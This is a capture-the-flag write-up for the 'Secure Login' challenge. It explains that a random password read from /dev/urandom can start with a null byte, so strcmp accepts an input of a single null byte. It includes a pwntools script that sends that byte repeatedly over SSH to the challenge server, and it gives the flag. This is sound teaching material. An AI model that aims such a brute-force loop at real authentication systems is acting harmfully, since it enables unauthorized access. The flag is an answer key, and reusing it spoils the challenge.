 # Secure Login

## Description

My login is, potentially, and I don't say this lightly, if you know me you know that's the truth, it's truly, and no this isn't snake oil, this is, no joke, the most secure login service in the world (source).

Try to hack me at /problems/2021/secure_login on the shell server.

## Solution

Let's take a look to the code:

````
#include <stdio.h>

char password[128];

void generate_password() {
	FILE *file = fopen("/dev/urandom","r");
	fgets(password, 128, file);
	fclose(file);
}

void main() {
	puts("Welcome to my ultra secure login service!");

	// no way they can guess my password if it's random!
	generate_password();

	char input[128];
	printf("Enter the password: ");
	fgets(input, 128, stdin);

	if (strcmp(input, password) == 0) {
		char flag[128];

		FILE *file = fopen("flag.txt","r");
		if (!file) {
		    puts("Error: missing flag.txt.");
		    exit(1);
		}

		fgets(flag, 128, file);
		puts(flag);
	} else {
		puts("Wrong!");
	}
}

````

The function fgets, doesn't seem vulnerable... But strcmp starts comparing the first character of each string. If they are equal to each other, it continues with the following pairs until the characters differ or until a terminating null-character is reached. 
So if the two strings starts with the string terminator the function will return 0 because the two strings match up to the null character.

We reach our goal! Let's write the script:
````
from pwn import *

#connection
conn = ssh(host='shell.actf.co', user='team', password='pw')
conn = conn.shell('/bin/bash')
conn.sendline('cd /problems/2021/secure_login')

#waiting for the magic
for x in range(1000):
	conn.sendline('./login')
	conn.recvuntil(': ')
	conn.sendline(b'\x00')
	print(conn.recvline())

conn.interactive()
conn.close()
````


#### **FLAG >>** `actf{if_youre_reading_this_ive_been_hacked}`
